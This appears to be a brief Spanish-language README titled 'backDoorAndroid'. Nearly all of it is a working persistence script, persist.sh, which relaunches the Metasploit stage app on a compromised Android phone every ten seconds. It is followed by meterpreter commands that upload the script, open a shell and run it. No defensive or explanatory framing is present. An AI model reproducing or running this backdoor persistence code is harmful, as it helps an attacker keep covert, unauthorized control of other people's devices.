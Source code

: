 # backDoorAndroid

archivo persist.sh
#!/bin/sh
while :
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage .MainActivity
sleep 10
done

meterpreter > upload ruta-del-persist.sh
meterpreter > shell
sh /ruta-al-archivo/persist.sh

archivo paso a paso
/metasploit-persistent
